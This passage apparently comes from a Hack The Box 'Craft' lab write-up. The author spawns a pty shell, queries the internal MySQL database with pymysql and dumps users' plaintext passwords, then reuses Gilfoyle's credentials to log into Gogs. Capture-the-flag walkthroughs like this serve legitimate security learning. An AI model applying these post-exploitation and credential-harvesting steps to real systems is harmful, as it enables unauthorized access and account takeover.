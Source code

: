 The MySQL client is not installed on this machine but I can use the pymysql Python module to query the database.

```
/opt/app # python -c 'import pty;pty.spawn("/bin/sh")'
/opt/app # python
Python 3.6.8 (default, Feb  6 2019, 01:56:13) 
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pymysql
>>> connection = pymysql.connect(host='172.20.0.4', user='craft', password='qLGockJ6G2J75O',
    db='craft', cursorclass=pymysql.cursors.DictCursor)
>>> cursor = connection.cursor()
>>> cursor.execute("show tables")
2
>>> cursor.fetchall()
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
>>> cursor.execute("select * from user")
3
>>> cursor.fetchall()                   
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'},
 {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'},
 {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

So I found a few more credentials:
 - `ebachman / llJ77D8QFkLPQB`
 - `gilfoyle / ZEU3N8WNM2rh4T`

I can log in to the Gogs website with Gilfoyle's credentials:

![](/assets/images/htb-writeup-craft/gogs_gilfoyle.png)
